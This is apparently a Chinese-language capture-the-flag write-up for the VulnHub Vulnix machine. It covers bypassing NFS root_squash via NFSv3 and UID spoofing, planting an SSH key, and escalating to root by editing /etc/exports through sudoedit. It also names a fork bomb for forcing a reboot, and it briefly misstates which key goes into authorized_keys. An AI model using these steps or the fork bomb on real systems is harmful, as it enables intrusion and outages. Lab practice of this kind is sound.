








# Recon

这台机器开放的服务比较多，似乎没有web，多数端口都是围绕的nfs服务



# NFS

在公共目录`/mnt`下创建挂载点文件夹，使用常规的方式进行nfs挂载，会发现挂载后的目录无法访问

通过`ls -d`查看目录属性，其属于`nobody`用户和`nogroup`组，uid和gid都是`65534`



明明都使用的是`sudo`，为什么以root权限也无法访问呢

这是因为这个nfs服务启用了一项安全机制`root_squash`，这个策略会压缩root权限

即服务端不认可客户端的root权限，具体会表现为将其降级为`nobody`用户`nogroup`组

---

上述所说的`root_squash`的具体表现其实是由`NFSv4`版本的一个特性`idmapd`所引发

通过`-o vers=3`强制要求通过`NFSv3`进行连接可以bypass `idmapd`这个特性



在bypass后，`ls -lnd /mnt/vulnix`能发现挂载点的所属用户和组不再是`no***`，而表现为`2008`

这时候就可以通过新建一个uid和gid都为`2008`的用户来欺骗nfs服务器



切换`vulnix`用户，此时对`/mnt/vulnix`有了读写权限



# shell as vulnix by private key written

使用`ssh-keygen -t ssh-rsa`以`ssh-rsa`算法生成公私钥，因为目标主机年份以久，不支持现代的`ed25519`默认算法



生成后将私钥写入`/mnt/vulnix/.ssh/authorized_keys`，确保`id_rsa.pub`与`authorized_keys`内容一致



由于kali linux使用的ssh客户端版本较新，需要手动添加`-o PubkeyAcceptedKeyTypes=+ssh-rsa`来支持`ssh-rsa`算法的私钥登录



# shell as root by edit /etc/exports

例行检查，发现能执行`sudoedit /etc/exports`

```shell
vulnix@vulnix:~$ sudo -ll
Matching 'Defaults' entries for vulnix on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User vulnix may run the following commands on this host:

Sudoers entry:
    RunAsUsers: root
    Commands:
 sudoedit /etc/exports
    RunAsUsers: root
    Commands:
 NOPASSWD: sudoedit /etc/exports

```

`/etc/exports`是nfs配置文件，向其中增加新的共享条目，并且关闭`root_squash`

```shell
vulnix@vulnix:~$ sudoedit /etc/exports
vulnix@vulnix:~$ cat /etc/exports 
# /etc/exports: the access control list for filesystems which may be exported
#      to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/vulnix    *(rw,root_squash)
/root   *(rw,no_root_squash)
```

修改完配置文件但是当前用户没有权限重启nfs服务或重启系统

在实战中可能利用`:() { :|:& };:`linux炸弹让系统重启，但很耗时

所以这里只能手动重启靶机

重启后再次showmount，此时/root已被共享

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/vulnix]
└─$ showmount  -e 192.168.2.137      
Export list for 192.168.2.137:
/root        *
/home/vulnix *
```

切换到`/mnt/root`可以得到flag

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/vulnix]
└─$ sudo mount 192.168.2.137:/root /mnt/root/ -o vers=3  
(py311) ┌──(root㉿kali)-[/mnt]
└─# cd root
(py311) ┌──(root㉿kali)-[/mnt/root]
└─# ls
trophy.txt
(py311)┌──(root㉿kali)-[/mnt/root]
└─# cat trophy.txt                 
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: trophy.txt
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────
       │ cc614640424f5bd60ce5d5264899c3be
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────
```

使用同样的公钥写入方法getshell

```shell
(py311) ┌──(root㉿kali)-[/mnt/root]
└─# ssh root@192.168.2.137 -o 'PubkeyAcceptedKeyTypes=+ssh-rsa' -i ~/.ssh/id_rsa
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Wed Oct 22 15:11:28 BST 2025

  System load:  0.0              Processes:           90
  Usage of /:   90.6% of 773MB   Users logged in:     0
  Memory usage: 9%               IP address for eth0: 192.168.2.137
  Swap usage:   0%

  => / is using 90.6% of 773MB

  Graph this data and manage this system at https://landscape.canonical.com/

Your Ubuntu release is not supported anymore.
For upgrade information, please visit:
http://www.ubuntu.com/releaseendoflife

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

root@vulnix:~# 

```

